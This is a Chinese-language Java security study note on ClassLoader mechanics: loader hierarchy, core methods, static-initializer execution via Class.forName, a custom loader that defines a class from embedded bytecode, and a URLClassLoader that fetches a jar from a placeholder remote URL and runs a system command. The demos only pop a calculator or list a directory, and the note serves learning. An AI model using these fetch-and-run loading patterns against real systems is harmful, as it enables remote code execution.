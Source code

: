 # ClassLoader(类加载机制)

## ClassLoader(类加载机制)

Java程序在运行前需要先编译成`class文件`，Java类初始化的时候会调用`java.lang.ClassLoader`加载类字节码，`ClassLoader`会调用JVM的native方法（`defineClass0/1/2`）来定义一个`java.lang.Class`实例。

## 类加载器简介

**启动类加载器(Bootstrap ClassLoader):**

　　　　这个类加载器负责将\lib目录下的类库加载到虚拟机内存中,用来加载java的核心库,此类加载器并不继承于java.lang.ClassLoader,不能被java程序直接调用,代码是使用C++编写的.是虚拟机自身的一部分.

**扩展类加载器(Extendsion ClassLoader):**

这个类加载器负责加载\lib\ext目录下的类库,用来加载java的扩展库,开发者可以直接使用这个类加载器.

**应用程序类加载器(Application ClassLoader):**

　　　　这个类加载器负责加载用户类路径(CLASSPATH)下的类库,一般我们编写的java类都是由这个类加载器加载,这个类加载器是CLassLoader中的getSystemClassLoader()方法的返回值,所以也称为系统类加载器.一般情况下这就是系统默认的类加载器.



　　除此之外,我们还可以加入自己定义的类加载器,以满足特殊的需求,需要继承java.lang.ClassLoader类.

　　类加载器之间的层次关系如下图:

![](img/1.webp)

## ClassLoader

所有的Java类都必须经过JVM加载后才能运行，`ClassLoader`的主要作用就是Java类文件的加载。在JVM类加载器中最顶层的是`Bootstrap ClassLoader（引导类加载器）`、`Extension ClassLoader（扩展类加载器）`、`App ClassLoader（系统类加载器）`，`AppClassLoader`是默认的类加载器，如果类加载时我们不指定类加载器的情况下，默认会使用`AppClassLoader`加载类，`ClassLoader.getSystemClassLoader()`返回的系统类加载器也是`AppClassLoader`。

某些时候我们获取一个类的类加载器时候可能会返回一个`null`值，如:`java.io.File.class.getClassLoader()`将返回一个`null`对象，因为`java.io.File`类在JVM初始化的时候会被`Bootstrap ClassLoader（引导类加载器）`加载（该类加载器实现于JVM层，采用C++编写），我们在尝试获取被`Bootstrap ClassLoader`类加载器所加载的类的`ClassLoader`时候都会返回`null`

## 类加载器的核心方法

1. `loadClass`（加载指定的Java类）
2. `findClass`（查找指定的Java类）
3. `findLoadedClass`（查找JVM已经加载过的类）
4. `defineClass`（定义一个Java类）
5. `resolveClass`（链接指定的Java类）



## Java类动态加载方式

Java类加载方式分为`显式`和`隐式`,`显式`即我们通常使用`Java反射`或者`ClassLoader`来动态加载一个类对象，而`隐式`指的是`类名.方法名()`或`new`类实例。`显式`类加载方式也可以理解为类动态加载，我们可以自定义类加载器去加载任意的类。

```java
Class.forName(className)
// 等于
Class.forName(className, true, currentLoader)
```

比较重要的是`Class.forName("类名")`默认会初始化被加载类的静态属性和方法，因此可以注入恶意代码

```Java
public class Test {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

而`ClassLoader.loadClass`默认不会初始化类方法

```Java
public class MyTest {
    public  void abc() throws ClassNotFoundException {
        this.getClass().getClassLoader().loadClass("evil.Test");
    }
    public static void main(String[] args) throws Exception{
//        Class.forName("evil.Test");
        MyTest myTest = new MyTest();
        myTest.abc();

    }
}

```

## ClassLoader类加载流程

结合看看双亲委派更好https://github.com/Stakcery/JavaSec/blob/main/1.%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/%E7%B1%BB%E5%8A%A0%E8%BD%BD%E5%99%A8%E4%B8%8E%E5%8F%8C%E4%BA%B2%E5%A7%94%E6%B4%BE%E6%A8%A1%E5%9E%8B/%E7%B1%BB%E5%8A%A0%E8%BD%BD%E5%99%A8%E4%B8%8E%E5%8F%8C%E4%BA%B2%E5%A7%94%E6%B4%BE%E6%A8%A1%E5%9E%8B.md



## 自定义ClassLoader

这里我写了一个弹出计算器的

```Java
package evil;

import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.NotFoundException;

import java.io.IOException;
import java.lang.reflect.Method;

public class MyClassLoader extends ClassLoader {
    public static String className = "evil.Testt";
    public  byte[] classBytes = new byte[]{-54,-2,-70,-66,0,0,0,51,0,56,10,0,11,0,30,10,0,31,0,32,8,0,33,10,0,31,0,34,7,0,35,10,0,5,0,36,9,0,37,0,38,8,0,39,10,0,40,0,41,7,0,42,7,0,43,1,0,6,60,105,110,105,116,62,1,0,3,40,41,86,1,0,4,67,111,100,101,1,0,15,76,105,110,101,78,117,109,98,101,114,84,97,98,108,101,1,0,18,76,111,99,97,108,86,97,114,105,97,98,108,101,84,97,98,108,101,1,0,4,116,104,105,115,1,0,12,76,101,118,105,108,47,84,101,115,116,116,59,1,0,4,67,97,108,99,1,0,1,101,1,0,21,76,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,59,1,0,13,83,116,97,99,107,77,97,112,84,97,98,108,101,7,0,35,1,0,4,109,97,105,110,1,0,22,40,91,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,86,1,0,4,97,114,103,115,1,0,19,91,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,1,0,10,83,111,117,114,99,101,70,105,108,101,1,0,10,84,101,115,116,116,46,106,97,118,97,12,0,12,0,13,7,0,44,12,0,45,0,46,1,0,4,99,97,108,99,12,0,47,0,48,1,0,19,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,12,0,49,0,13,7,0,50,12,0,51,0,52,1,0,3,49,50,51,7,0,53,12,0,54,0,55,1,0,10,101,118,105,108,47,84,101,115,116,116,1,0,16,106,97,118,97,47,108,97,110,103,47,79,98,106,101,99,116,1,0,17,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,1,0,10,103,101,116,82,117,110,116,105,109,101,1,0,21,40,41,76,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,59,1,0,4,101,120,101,99,1,0,39,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,76,106,97,118,97,47,108,97,110,103,47,80,114,111,99,101,115,115,59,1,0,15,112,114,105,110,116,83,116,97,99,107,84,114,97,99,101,1,0,16,106,97,118,97,47,108,97,110,103,47,83,121,115,116,101,109,1,0,3,111,117,116,1,0,21,76,106,97,118,97,47,105,111,47,80,114,105,110,116,83,116,114,101,97,109,59,1,0,19,106,97,118,97,47,105,111,47,80,114,105,110,116,83,116,114,101,97,109,1,0,7,112,114,105,110,116,108,110,1,0,21,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,86,0,33,0,10,0,11,0,0,0,0,0,3,0,1,0,12,0,13,0,1,0,14,0,0,0,47,0,1,0,1,0,0,0,5,42,-73,0,1,-79,0,0,0,2,0,15,0,0,0,6,0,1,0,0,0,5,0,16,0,0,0,12,0,1,0,0,0,5,0,17,0,18,0,0,0,1,0,19,0,13,0,1,0,14,0,0,0,107,0,2,0,2,0,0,0,18,-72,0,2,18,3,-74,0,4,87,-89,0,8,76,43,-74,0,6,-79,0,1,0,0,0,9,0,12,0,5,0,3,0,15,0,0,0,22,0,5,0,0,0,8,0,9,0,11,0,12,0,9,0,13,0,10,0,17,0,12,0,16,0,0,0,22,0,2,0,13,0,4,0,20,0,21,0,1,0,0,0,18,0,17,0,18,0,0,0,22,0,0,0,7,0,2,76,7,0,23,4,0,9,0,24,0,25,0,1,0,14,0,0,0,55,0,2,0,1,0,0,0,9,-78,0,7,18,8,-74,0,9,-79,0,0,0,2,0,15,0,0,0,10,0,2,0,0,0,15,0,8,0,16,0,16,0,0,0,12,0,1,0,0,0,9,0,26,0,27,0,0,0,1,0,28,0,0,0,2,0,29};





    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        System.out.println(name);
        if (name.equals(className)) {
            return defineClass(className, classBytes, 0, classBytes.length);
        }
        return super.findClass(name);
    }

    public static void main(String[] args) throws Exception {

        MyClassLoader myClassLoader = new MyClassLoader();
        Class aClass = myClassLoader.loadClass(className);
        Object obj = aClass.newInstance();
        Method calc = obj.getClass().getMethod("Calc");
        calc.invoke(obj,null);
    }


}

```

## URLClassLoader

### Linux下打包jar

命令

```cmd
jar cvfm 1.jar ./META-INF/MAINFEST.MF *.class
```

创建META-INF/MAINFEST.MF，内容为，最后记得空格

```xml
Manifest-Version: 1.0

```

exp目录下写类，并编译javac exp.java

```java
package exp;
import java.io.IOException;

public class Test {
    public static Process exec(String cmd) throws IOException {
        return Runtime.getRuntime().exec(cmd);
    }

    public static void main(String[] args) {
        System.out.println("1333");
    }
}

```

### 一个示例

```java
package evil;



import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.net.URL;
import java.net.URLClassLoader;

public class MyURLClassloader {
    public static void main(String[] args) throws Exception{
        URL url = new URL("http://xxxx/33.jar");
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
        Class test = urlClassLoader.loadClass("Test");
        Process process = (Process) test.getMethod("exec", String.class).invoke(null, "dir");
        BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        String line=null;
        StringBuffer br=new StringBuffer();
        while ((line=bufferedReader.readLine())!=null) {
            br.append(line+"\n");
        }
        System.out.println(br.toString());

    }
}

```

## 类加载隔离

[看这个阿里大佬写的足以](https://github.com/Stakcery/JavaSec/blob/main/1.%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/%E4%B8%A4%E7%A7%8D%E5%AE%9E%E7%8E%B0Java%E7%B1%BB%E9%9A%94%E7%A6%BB%E5%8A%A0%E8%BD%BD%E7%9A%84%E6%96%B9%E6%B3%95/%E4%B8%A4%E7%A7%8D%E5%AE%9E%E7%8E%B0Java%E7%B1%BB%E9%9A%94%E7%A6%BB%E5%8A%A0%E8%BD%BD%E7%9A%84%E6%96%B9%E6%B3%95.pdf)

## 参考文章

https://blog.csdn.net/briblue/article/details/54973413

https://www.jianshu.com/p/554c138ca0f5

